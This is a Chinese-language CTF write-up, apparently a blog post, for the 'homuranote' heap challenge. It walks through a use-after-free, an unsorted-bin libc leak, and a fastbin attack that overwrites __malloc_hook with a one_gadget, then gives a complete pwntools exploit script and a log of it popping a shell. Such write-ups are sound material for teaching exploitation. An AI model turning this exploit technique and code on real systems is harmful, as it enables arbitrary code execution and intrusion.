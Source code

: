 title: Homuranote
categories: 
- PWN
---
# cgctf pwn300

## 大概审查思路
- 据说这题是入门堆题,又是校队考核题目,入门一发堆吧
- 很经典的note结构,menu getnum switch-case选择功能
- checksec 查一下,能开的都开了.
- IDA打开后反编译,程序大概有5个功能,新建,删除,编辑,查看,退出
- 新建堆处很正常
- 删除堆,也就是free处,存在UAF
- 编辑处可以修改堆内的值

## 具体攻击思路
- fastbin attack劫持 \_malloc_hook_
- unsorted bin leak 程序基址
- 配合给好的libc文件进行攻击

## 具体攻击原理

### fastbin atacck
- 一般利用doublefree,但是此程序给了edit函数,而且可以UAF,所以攻击方式随意
- 此处建立起一个单向链表,只需要chunk1指向chunk2然后指向chunk1,则下一个分配的堆块,就可以在任意地点\(刚才edit写入或者doublefree后写入的\)

```python
addnote(0,"a"*0x30)#chunk 1
addnote(1,"b"*0x30)#chunk 2
free(0)
free(1)
free(0)
addnote(0,fake_chunk_add)#chunk 1
addnote(2,"a"*0x30)#chunk 2
addnote(3,"c"*0x30)#chunk 1
addnote(4,payload)#attack
```

```python
addnote(0,"a"*0x30)
free(0)
edit(0,fake_chunk_add)
addnote(0,"a"*0x30)
addnote(1,attack)
```

- 其实原理都差不多,都是利用fastbin内的内容与chunkhead之间在free和inuse时不同的布局来实现任意地址读写.

### unsorted bin leak
-  申请两个堆块后,free堆块时,假如大小范围大于max_fast,则内存空间被划分到unsorted bin中,此时,调试可知,此时堆块的指针是一起指向<main_arena+88>中的(fastbin为空时，unsortbin的fd和bk指向自身main_arena中，该地址的相对偏移值存放在libc中, 通过use after free后打印出main_arena的实际地址, 结合偏移值从而得到libc的加载地址)

### OneGadget
- 寻找现成的execvl("/bin/sh"),免去构造system("/bin/sh"),但是函数执行有条件,所以要多找几个onegadget尝试一下,最后覆写\_malloc\_hook\_,在下一次malloc时,即可getshell.

# 脚本

```python
from pwn import *

#r = process("./homuranote")
r = remote("45.76.173.177",6666)
main_arena_addr = 0x397B00
mallochook=0x397af0
oneGadget=0xd694f

def addnote(s):
	r.sendline("1")
	r.sendlineafter("Size:",str(len(s)))
	r.sendlineafter("Content:",s)

def show(index):
	r.sendline("2")
	r.sendlineafter("Index:",str(index))

def edit(index,s):
	r.sendline("3")
	r.sendlineafter("Index:",str(index))
	r.sendline(s)

def delete(index):
	r.sendline("4")
	r.sendlineafter("Index:",str(index))

#leak libc

success("START leak")
addnote("a"*0x7f)
addnote("b"*0x7f)
delete(0)
show(0)
a = r.recvline()
offset = u64(a[0:6].ljust(8,"\x00")) - 88
libc_base = offset - main_arena_addr
print "libcbase: %x"%libc_base
success("SUCCESS leak")

# fastbin attack

success("START FASTBIN ATTACK")

fake_chunk=p64(libc_base + mallochook-0x20-3) + 0x58*'\x00'
padding='\x00'*(0x10+3) + p64(libc_base + oneGadget) + '\x00'*(0x58-0x10-3)

addnote("a"*0x60)
delete(2)
edit(2,fake_chunk)

addnote("c"*0x60)
addnote(padding)

success("get shell")
r.interactive()
```

```
$ ls 
[1]+  Stopped                 python exp.py
mozhucy@ubuntu:~/Desktop/kh$ python exp.py
[+] Opening connection to 45.76.173.177 on port 6666: Done
[+] START leak
libcbase: 7f9858333000
[+] SUCCESS leak
[+] START FASTBIN ATTACK
[+] get shell
[*] Switching to interactive mode
Ok,index:4.
1.add
2.show
3.edit
4.delete
5.exit
choice>>$ 1
Size:$ 2
$ ls
flag94539
$ cat flag94539
flag{R3al1y_****_h3aP_****}
$  
```